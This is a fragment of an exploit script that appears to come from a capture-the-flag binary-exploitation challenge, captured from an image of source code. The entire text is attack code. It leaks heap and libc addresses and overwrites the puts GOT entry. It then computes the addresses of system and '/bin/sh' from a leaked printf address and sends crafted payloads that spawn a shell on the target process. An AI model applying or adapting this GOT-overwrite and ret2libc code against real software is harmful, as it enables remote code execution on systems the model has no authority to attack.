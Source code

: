 ```
    heapaddr=u64(heapaddr);
    print hex(heapaddr)
    writearray(payload_arr[2],2)
    write("C"*0x88);
    readuntil("C"*0x88)
    writearray(payload_arr[3],3)
    write("D"*0x88)
    readuntil("D"*0x88)
    writearray(payload_arr[4],4)
    write("E"*0x88+p32(puts_got));
    readuntil("E"*0x88)
    #attach() 
    writearray(payload_arr[5],5)
    write("F"*0x8)
    readuntil("F"*0x8)
    writearray(payload_arr[6],6)
    payload="G"*0x8
    payload+=p64(0x400776)
    payload+=p64(0x400786)
    payload+=p64(0x400796)
    payload+=p64(0x4007A6)
    payload+=p64(0x4007B6)
    payload+=p64(0x4007C6)
    payload+=p64(0x4007D6)
    payload+=p64(0x4007E6)
    payload+=p64(0x4007F6)
    payload+=p64(0x400806)
    payload+=p64(main)
    write(payload)
    readuntil("G"*8);
    printf=readuntil("\n")[:-1];
    printf+=(8-len(printf))*"\x00"
    printf=u64(printf)
    print hex(printf)
    system=printf-(0x54340-0x0000000000E66C9)
    system=printf-0xddb0
    binsh=printf-(0x54340-0x17C8C3)
    print hex(system)
    writearray(payload_arr[7],10)
    writearray(payload_arr[0],7);
    write("A"*0x88+p32(puts_got));
    readuntil("A"*0x88)
    writearray(payload_arr[1],8);
    write("B"*0x90);
    readuntil("B"*(0x88+8))
    sleep(0.1)
    writearray(payload_arr[2],9)
    payload=p64(0x400766);
    payload+=p64(main)
    payload+=p64(0x400786)
    payload+=p64(0x400796)
    payload+=p64(0x4007A6)
    payload+=p64(0x4007B6)
    payload+=p64(0x4007C6)
    payload+=p64(0x4007d6)
    payload+=p64(0x4007E6)
    payload+=p64(system)
    payload+=p64(0x400806)
    payload+=p64(0x400816)
    payload+=p64(0x400826)
    payload+=(0x6020A0-0x602088)*"\x00"
    payload+=p64(binsh)*2
    writeline(payload);
```